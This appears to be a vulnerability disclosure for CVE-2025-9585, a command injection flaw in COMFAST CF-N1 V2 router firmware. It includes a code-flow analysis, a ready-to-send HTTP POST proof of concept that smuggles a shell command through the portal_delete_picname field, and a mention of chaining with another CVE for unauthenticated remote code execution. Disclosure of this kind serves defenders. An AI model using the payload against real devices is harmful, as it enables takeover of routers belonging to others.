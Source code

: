 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `wifilith_delete_pic_file`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `wifilith_delete_pic_file` API (`/usr/bin/webmgnt`, function `sub_417888`). Attackers can inject arbitrary commands via the `portal_delete_picname` parameter, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![Vulnerability Overview Diagram](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file`

*   **Vulnerability**: Command Injection

*   **CVE ID**: CVE-2025-9585

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_417888` function handling the `wifilith_delete_pic_file` section. Disassembly analysis shows that the user-controlled `portal_delete_picname` parameter is unsanitized and directly incorporated into a system command via `sprintf_0` before execution by `system_0`.

Key code flow:



1.  User input (including `portal_delete_picname`) is parsed via `blobmsg_parse_0` and extracted as a configuration parameter.

2.  The parameter value is inserted into a command string using `sprintf_0` (likely constructing a file deletion command template, e.g., `rm -f /etc/wifilith/%s`).

3.  The constructed command is executed via `system_0` without input sanitization, allowing injection of arbitrary commands through delimiters like `;`, `&&`, or `#`.

This direct concatenation of unvalidated input into executable commands enables attackers to bypass intended file deletion operations and execute malicious code.



![Disassembly Snippet: Vulnerable Code Path](./imgs/1.png)



![Command Execution Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Command to Write Test File



```
POST /cgi-bin/mbox-config?method=SET&section=wifilith_delete_pic_file  HTTP/1.1
Host: cflogin.cn
Content-Length: 69
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"portal_delete_picname": "; echo delete >  /www-comfast/test.txt #"}
```



*   **Notes**: The vulnerable parameter is `portal_delete_picname`, exploited using `;` to terminate the original command context and `#` to comment out remaining syntax.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify command execution.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "delete", confirming successful injection.



![PoC Execution Result](./imgs/3.png)
